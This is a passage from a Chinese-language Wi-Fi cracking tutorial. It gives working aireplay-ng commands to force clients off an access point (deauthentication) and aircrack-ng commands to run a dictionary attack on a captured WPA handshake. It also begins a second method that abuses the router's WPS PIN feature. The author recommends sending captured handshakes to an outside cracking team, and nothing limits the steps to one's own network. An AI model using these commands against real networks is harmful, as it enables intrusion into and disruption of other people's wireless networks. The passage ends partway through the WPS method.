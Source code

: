 ![enter image description here](img/img9_u55_png.jpg)

```
Aireplay-ng -0 10 -a (AP 的 mac) -c (客户端的 mac) 
```

> -0 参数是发起 deauth 攻击.10 是次数可以调节
> 
> -a 即第一条 shell 中 BSSID.下面的 AP 路由器 MAC 地址
> 
> -c 即 STATION 下客户机的 MAC 地址(这条为可选项)

![enter image description here](img/img10_u66_png.jpg)

```
Aircrack-ng -w /pentest/passwords/sxsx.lst mobi-01.cap 
```

`-w` 选择字典 `mobi-01.cap` 即抓到的握手包

Ps：我是不建议自己跑密码的.我直接挂载 u 盘吧握手包 copy 到 u 盘里在.通过 QQ 方式吧包发给跑包团队. 然后是吧正确密码添加到了我的字典里。才会出现上图（既成功破解后的图）！ 另外是密码使用有一定联系性规律性密码

**破解方案二:利用路由器 wps 功能漏洞**

Airodump-ng mon0 查看附近无线情况。在 MB 这行带点的“.”表示能跑出 pin 码。使用 wash -i mon0 -C 可查看是否开启了 wps 功能
